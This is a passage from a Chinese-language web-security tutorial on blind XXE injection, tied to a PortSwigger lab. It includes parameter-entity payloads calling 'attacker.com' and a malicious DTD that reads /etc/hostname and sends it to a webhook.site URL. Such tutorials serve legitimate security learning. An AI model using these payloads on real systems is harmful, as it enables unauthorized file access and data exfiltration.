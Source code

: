 但是，burp collaborator 客户端仅在**burp 专业版中**可用，并且可以通过 burp-> burp collaborator client 进行访问。

您可能会发现常规实体被阻止的例子，这可能是由于某些输入检查或者强化了 XML 解析器级别所导致的。在这种情况下，您可以使用 XML 参数实体。

## XML 参数实体

这些是特殊类型的 XML 实体，只能在 DTD 中引用。

### 声明

```bash
<!ENTITY % paramentity "my test value">
```

### 引用

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

要检验的您的学习状态，可以遵循[portswigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)实验

在平台上测试时，只要简单将其表示为错误就足够了，但是如果敏感数据能够被提取，则你可以大大地提高这个漏洞的影响力。

## 让我们看看如何提取数据

创建恶意 DTD

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/?x=%file;'>">
%eval;
%exfil;
```

这是存储在某处的恶意 DTD 文件。例如，portwigger 的漏洞利用服务器

在对易受攻击的应用程序的请求中，必须提供到存储漏洞利用的服务器的 URL。

[![](assets/1698897039-38593fe01d59bb0ab2277bebc26842d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135021-1dd41d72-aa41-1.png)
